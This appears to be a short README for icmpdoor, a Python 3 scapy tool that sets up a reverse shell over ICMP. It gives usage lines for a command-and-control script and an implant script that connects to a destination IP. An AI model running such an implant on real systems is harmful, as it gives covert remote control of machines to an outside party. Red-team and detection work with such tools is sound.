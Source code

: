 # ICMP Reverse Shell in Python 3 
ICMP reverse shell with py3 scapy

Usage:
```bash
icmp-cnc.py [-h] -i INTERFACE -d DESTINATION_IP (Command and Control)
./icmpdoor.py [-h] -i INTERFACE -d DESTINATION_IP (Implant)
```
optional arguments:

```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  ```
